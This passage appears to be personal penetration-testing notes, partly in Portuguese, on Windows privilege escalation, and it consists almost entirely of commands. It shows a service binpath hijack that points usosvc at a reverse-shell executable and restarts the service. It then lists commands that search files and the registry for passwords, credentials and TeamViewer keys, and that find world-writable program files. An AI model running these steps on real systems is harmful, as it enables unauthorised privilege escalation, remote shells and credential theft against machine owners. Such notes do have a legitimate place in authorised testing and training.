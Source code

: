    ./accesschk.exe -ucwqv <servicename> /accepteula
    
Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc

## PasswordEnumeration

    findstr /si password *.doc *.txt *.ini *.config
    
    gci -recurse -filter passwd*
    
    dir /s *pass* == *cred* == *ssh* == *.config*
    
    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
    
    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
    driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
    
    Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
 
## Writable files
 
     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
